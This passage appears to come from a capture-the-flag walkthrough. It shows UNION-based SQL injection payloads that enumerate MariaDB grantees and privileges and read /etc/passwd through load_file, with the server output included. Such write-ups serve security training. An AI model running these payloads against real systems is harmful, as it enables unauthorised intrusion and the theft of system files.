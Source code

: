 ```html
```
It returns error, so let's check how the grantees are stored into that table:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION SELECT grantee from information_schema.user_privileges  ;-- -</h3>
<li class='text-white'>'mariadb.sys'@'localhost'</li>
<li class='text-white'>'mysql'@'localhost'</li>
<li class='text-white'>'root'@'localhost'</li>
<li class='text-white'>'uhc'@'localhost'</li>
```
So the grantees follow the pattern 'username'@'hostname'. Let's try the previous payload with this modification:
```sql
' UNION SELECT privilege_type from information_schema.user_privileges where grantee= "'uhc'@'localhost'" ;-- -
```
```html
SELECT
INSERT
UPDATE
DELETE
CREATE
DROP
RELOAD
SHUTDOWN
PROCESS
FILE
REFERENCES
INDEX
ALTER
SHOW DATABASES
SUPER
CREATE TEMPORARY TABLES
LOCK TABLES
EXECUTE
REPLICATION SLAVE
BINLOG MONITOR
CREATE VIEW
SHOW VIEW
CREATE ROUTINE
ALTER ROUTINE
CREATE USER
EVENT
TRIGGER
CREATE TABLESPACE
DELETE HISTORY
SET USER
FEDERATED ADMIN
CONNECTION ADMIN
READ_ONLY ADMIN
REPLICATION SLAVE ADMIN
REPLICATION MASTER ADMIN
BINLOG ADMIN
BINLOG REPLAY
SLAVE MONITOR
```
From those privileges we could use `SHUTDOWN` for DOS and `FILE` for LFI. Let's try reading the `/etc/passwd` file with `country=' UNION select load_file('/etc/passwd');-- -`:
```html
<h3 class="text-white">Other Players In ' UNION select load_file('/etc/passwd');-- - ;-- -</h3>
<li class='text-white'>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```